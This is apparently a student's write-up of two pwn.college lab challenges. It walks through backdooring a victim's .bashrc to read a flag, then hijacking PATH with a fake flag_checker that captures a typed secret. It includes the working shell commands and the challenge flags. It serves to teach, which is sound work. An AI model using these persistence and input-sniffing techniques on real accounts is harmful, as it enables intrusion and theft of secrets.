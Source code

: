 # Silly Shenanigans

## Bashrc backdoor
When your shell starts up, it looks for .bashrc file in your home directory and executes it as a startup script. You can customize your /home/hacker/.bashrc with useful things, such as setting environment variables, tweaking your shell configuration, and so on.

You can also use it for evil! An unwitting victim's .bashrc is a common target for shenanigans. Imagine sneaking onto your friend's computer and adding a echo "Hackers were here!" at the end of their .bashrc. That's funny, but the same capability can be used for much more nefarious purposes. Malicious software, for example, often targets startup scripts such as .bashrc to maintain persistence into the future!

In this challenge, we'll pretend that you've broken into a victim user's machine! That user is named zardus, with a home directory of /home/zardus. You, as the hacker user, have write access to his .bashrc, and zardus has read-access to /flag. The victim is simulated by the script /challenge/victim, and you can launch this script at any time to observe the victim logging into the computer. Can you get the flag?

### Solve
**Flag:** `pwn.college{ohRZeGRzp0I7t-4YdjySZB3sG8G.0VMzEzNxwCN2gjNzEzW}`

I added the command to read the flag in the .bashrc script and executed it.
```
hacker@shenanigans~bashrc-backdoor:~$ echo 'cat /flag' > /home/zardus/.bashrc
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ***********
pwn.college{ohRZeGRzp0I7t-4YdjySZB3sG8G.0VMzEzNxwCN2gjNzEzW}
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
```

### New Learnings
I learnt about .bashrc being a startup script and how you can use it.

### References

## Sniffing input
In the previous level, you abused Zardus's ~/.bashrc to make him run commands for you.

This time, Zardus doesn't keep the flag lying around in a readable file after he logs in. Instead he'll run a command named flag_checker, manually typing the flag into it for verification.

Your mission is to use your continued write access to Zardus's .bashrc to intercept this flag. Remember how you hijacked commands in the Pondering PATH module? Can you use that capability to hijack the flag_checker?

### Solve
**Flag:** `pwn.college{MUm7XEjegUOaqY9st_Mmpp1XaKz.0VNzEzNxwCN2gjNzEzW}`

I was stuck because I entered the wrong path to the PATH variable. After I changed it to hacker's home directory which was where I created the fake flag_checker file, it worked.
```
hacker@shenanigans~sniffing-input:~$ touch flag_checker
hacker@shenanigans~sniffing-input:~$ echo 'read -p "Type the flag" flag' > flag_checker
hacker@shenanigans~sniffing-input:~$ echo 'echo $flag' >> flag_checker
hacker@shenanigans~sniffing-input:~$ chmod a+x flag_checker
hacker@shenanigans~sniffing-input:~$ echo 'PATH=/home/hacker' > /home/zardus/.bashrc
hacker@shenanigans~sniffing-input:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag*************************************************************pwn.college{MUm7XEjegUOaqY9st_Mmpp1XaKz.0VNzEzNxwCN2gjNzEzW}
zardus@shenanigans~sniffing-input:~$ exit
logout
```

### New Learnings
I practiced hijacking files and .bashrc to redirect the PATH.

### References

## 
